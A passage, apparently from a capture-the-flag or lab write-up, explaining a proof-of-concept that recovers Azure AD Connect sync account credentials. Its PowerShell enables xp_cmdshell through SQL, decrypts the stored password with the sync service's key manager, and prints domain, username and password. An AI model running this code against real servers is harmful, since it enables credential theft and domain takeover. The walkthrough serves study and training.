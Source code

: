 The rest is just formatting the output and printing:

```

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

```

### New POC

#### Differences

Other than some additional print statements, the first two sections of the [new POC](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) are exactly the same. The third part is new. Instead of fetching the keys and decrypting in PowerShell, it passes those commands through `xp_cmdshell` so that the database runs the commands:

```

$cmd = $client.CreateCommand()
$cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
$reader = $cmd.ExecuteReader()

$decrypted = [string]::Empty

while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
    $decrypted += $reader.GetString(0)
}

if ($decrypted -eq [string]::Empty) {
    Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
    return
}

```

#### Running It

I downloaded a copy of the [new POC code](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) and updated the connections string to match what I did in the original:
